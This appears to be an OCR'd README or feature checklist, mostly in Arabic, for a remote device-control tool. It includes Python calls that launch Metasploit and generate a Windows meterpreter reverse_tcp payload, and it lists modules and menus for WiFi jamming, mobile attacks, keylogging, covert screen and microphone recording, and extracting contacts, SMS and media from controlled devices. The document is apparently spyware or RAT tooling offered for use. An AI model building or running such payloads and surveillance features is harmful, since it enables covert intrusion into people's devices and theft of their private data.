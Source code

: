 #### **🔧 الأدوات المتقدمة:**
```python
# ✅ Metasploit
result = command_executor.send_command(device_id, "tool_execution", {
    "tool": "metasploit",
    "action": "start",
    "console": True
})

# ✅ إنشاء Payload
result = command_executor.send_command(device_id, "tool_execution", {
    "tool": "metasploit",
    "action": "generate_payload",
    "payload_type": "windows/meterpreter/reverse_tcp",
    "lhost": "192.168.1.100",
    "lport": 4444
})
```

### **3. التحقق من الخادم الحقيقي**

#### ✅ **الوحدات المدعومة:**
- `AdvancedWiFiJammingModule` ✅
- `AdvancedMobileAttackModule` ✅
- `AdvancedCryptoCrackingModule` ✅
- `AIAnalysisModule` ✅
- `AIRecommendationModule` ✅
- `AIThreatMonitoringModule` ✅

#### ✅ **معالجات الأوامر:**
- `_handle_data_commands()` ✅
- `_handle_surveillance_commands()` ✅
- `_handle_wifi_commands()` ✅
- `_handle_mobile_commands()` ✅
- `_handle_command_execution()` ✅

### **4. التحقق من الأزرار التفاعلية**

#### **القائمة الرئيسية:**
- ✅ **إدارة الأجهزة** → `devices_menu`
- ✅ **استخراج البيانات** → `contacts_menu`, `sms_menu`, `media_menu`, `location_menu`
- ✅ **المراقبة** → `screenshot_menu`, `record_menu`, `mic_record_menu`, `keylogger_menu`
- ✅ **الهجمات المتقدمة** → `advanced_attacks_menu`
- ✅ **التحكم في النظام** → `system_control_menu`
- ✅ **الأدوات المتقدمة** → `tools_menu`

#### **القوائم الفرعية:**
- ✅ **جهات الاتصال** → `contacts_backup_all`, `contacts_search`, `contacts_stats`
- ✅ **الرسائل** → `sms_backup_all`, `sms_inbox`, `sms_sent`
- ✅ **الوسائط** → `media_photos`, `media_videos`
- ✅ **الهجمات** → `wifi_deauth`, `mobile_metasploit`
- ✅ **النظام** → `system_info`, `system_restart`
- ✅ **الأدوات** → `metasploit_start`, `metasploit_payload`
